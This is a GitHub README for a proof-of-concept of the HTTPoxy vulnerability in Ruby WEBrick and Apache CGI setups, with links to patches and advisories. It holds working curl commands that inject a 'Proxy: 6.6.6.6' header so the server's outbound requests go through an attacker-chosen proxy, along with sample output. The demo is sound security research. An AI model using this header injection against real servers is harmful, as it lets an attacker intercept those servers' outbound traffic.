 # Ruby HTTPoxy PoC (gordonchan/ruby-httpoxy)

[![](https://images.microbadger.com/badges/image/gordonchan/ruby-httpoxy.svg)](http://microbadger.com/images/gordonchan/ruby-httpoxy "Get your own image badge on microbadger.com")

[![](https://images.microbadger.com/badges/image/gordonchan/ruby-apache-httpoxy.svg)](http://microbadger.com/images/gordonchan/ruby-apache-httpoxy "Get your own image badge on microbadger.com")

A somewhat contrived example of the [HTTPoxy](https://httpoxy.org/) vulnerability for a Ruby WEBrick server that is serving CGI scripts. Demonstrates:

* `WEBrick::HTTPRequest` prepends headers with "HTTP_" and `WEBrick::HTTPServlet::CGIHandler` lets the `HTTP_PROXY` header become an environment variable. Same deal with Apache server.
* Ruby `net/http` is not vulnerable as per [`URI::Generic#find_proxy`](http://ruby-doc.org/stdlib-2.3.1/libdoc/uri/rdoc/URI/Generic.html#method-i-find_proxy).
* *But* if the Ruby CGI script calls a system program that uses an affected HTTP client (e.g. Go `net/http`), the `HTTP_PROXY` environment variable will be respected and its value will be used for outbound HTTP requests. :(

## Quick Start:

```
$ ./server
$ curl -H "Proxy: 6.6.6.6" localhost:4000/ruby.cgi -v
```

With Docker:

```
$ docker run --rm -p 4000:4000 gordonchan/ruby-httpoxy
$ curl -H "Proxy: 6.6.6.6" $(docker-machine ip):4000/ruby.cgi -v
```

With Docker (Apache):

```
$ docker run --rm -p 80:80 gordonchan/ruby-apache-httpoxy
$ curl -H "Proxy: 6.6.6.6" $(docker-machine ip):80/ruby.cgi -v
```

### Observed Output

```
*   Trying ::1...
* Connected to localhost (::1) port 4000 (#0)
> GET /ruby.cgi HTTP/1.1
> Host: localhost:4000
> User-Agent: curl/7.43.0
> Accept: */*
> Proxy: 6.6.6.6
>
< HTTP/1.1 200 OK
< Content-Type: text/html
< Server: WEBrick/1.3.1 (Ruby/2.3.0/2015-12-25)
< Date: Tue, 02 Aug 2016 11:42:57 GMT
< Content-Length: 409
< Connection: Keep-Alive
<
HTTP_PROXY env:
ENV['HTTP_PROXY']  > 6.6.6.6

net/http proxy check:
NONE!

`./go-proxy-check` (system command):
In Go Land (using net/http)
Proxy: http://6.6.6.6
```

## Notes:
- [HTTPoxy.org](https://httpoxy.org/)
- [WEBrick::HTTPRequest](https://github.com/ruby/ruby/blob/978ee6d1ef62b36c143103f7a229bfb8bf0f99c6/lib/webrick/httprequest.rb#L402) setting metavariables as per defined in [RFC3875 section 4.1.18](https://tools.ietf.org/html/rfc3875#section-4.1.18)
- [Ruby WEBRick patch](https://github.com/ruby/ruby/commit/dafeebf12d4a930a99e5d3917ba070ebefefd23f)
- [Ruby Redmine Bug #12610](https://bugs.ruby-lang.org/issues/12610)
- [Go Lang `net/http` Patch](https://github.com/golang/go/issues/16405)
- [Red Hat advisory](https://access.redhat.com/security/vulnerabilities/httpoxy)
- [Nginx blog post](https://www.nginx.com/blog/mitigating-the-httpoxy-vulnerability-with-nginx/)
- [Notes from Phusion Passenger](https://blog.phusion.nl/2016/07/21/web-applications-on-phusion-passenger-are-not-vulnerable-to-httpoxy/)
- [Notes from Sophos](https://nakedsecurity.sophos.com/2016/07/19/httpoxy-the-disease-that-could-make-your-web-server-spring-a-leak/)

## License

ruby-httpoxy is Copyright (c) 2016 Gordon Chan and is released under the MIT License. It is free software, and may be redistributed under the terms specified in the LICENSE file.

[![Analytics](https://ga-beacon.appspot.com/UA-70790190-2/ruby-httpoxy/README.md?flat)](https://github.com/igrigorik/ga-beacon)

